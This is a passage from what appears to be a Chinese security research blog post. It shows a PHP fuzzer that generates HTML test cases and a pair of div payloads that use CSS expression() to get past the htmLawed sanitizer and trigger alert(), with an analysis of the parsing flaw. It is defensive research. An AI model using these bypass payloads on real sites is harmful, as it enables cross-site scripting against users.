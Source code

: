 ```
$mstr.=$mag[1];
$mstr.="*/ression(alert(9));";
shuffle($mag);
$mstr.=$mag[0];
$mstr.=$mag[1];
$mstr.=$m1[0];
$mstr.=">".$j."</div>\r\n";
fwrite($fp, $mstr);
$mtotran.=$mstr;
}
fclose($fp);
$outcont = htmLawed($mtotran);
// print $outcont."\r\n";
$fp1 = fopen("C:\\Inetpub\\wwwroot\\out\\hush".$i.".html", "a");
fwrite($fp1, "<HTML>\r\n<HEAD>\r\n<TITLE>".$i."</TITLE>\r\n<meta http-equiv=\"refresh\" content=\"1;url=hush".($i+1).".html\">\r\n</HEAD>\r\n<BODY>\r\n");
fwrite($fp1, $outcont);
fwrite($fp1, "</BODY>\r\n</HTML>");
fclose($fp1);
print $i."\r\n";
// break;
}
?>

```

各位见笑了，我没写过 php，现学了一下攒出个程序很烂，仅仅是实现我的思路而已，没有考虑效率啊稳定之类的。程序功能很简单，按照前面提到的简单模版随机填充进一些元素，生成 testcase，然后用 htmLawed 进行过滤之后生成结果文件，放在 WEB 服务器上让他自动运行，看能否弹出 alert。前面说过了这个模版不怎么好，太简单，所以我多生成了一点，总共下来是一千万个用例，结果访问第一个文件就弹出了 alert 对话框 0_0。可见 htmLawed 也不是一个久经考验的 filter。

我看了一下通过的用例，发现其实很多方法可以绕过 htmLawed 的过滤，这里举一个简单的例子：

```
<div id= \""&#  style="w:exp/*\\'<div*/ression(alert(9));'=">722</div>
<div id="\">/" style="w:exp/*&#*/ression(alert(9));&#</div>">723</div>

```

这两条一起传给 filter 之后，过滤结果为：

```
div style="w:exp  '<div*/ression(alert(8));'=">722</div>
<div>/" style="w:exp/*&#*/ression(alert(9));&#</div>">723

```

就会弹出 alert 了，证明已经绕过了过滤。经过分析发现，主要原因在于对<div 标签的过滤有问题，当同时存在两个<div 的时候，会保留第二个舍弃第一个，这样导致了原有的安全域边界改变了。再结合第二条 div 中的双引号封闭前面的内容，所以本来第二条的 style 应该是标签之外的内容的低安全级别域，没有过滤/**/和 expression，和前面结合之后就进入了高安全级别域的范围里面，导致了 XSS。是不是看得有点头晕？这就证明了 fuzzing 能够做到人脑所做不到的事情（我这里说的是普通人脑，大牛们的脑子除外）。

## 0x05 实战：远程 fuzzing

* * *
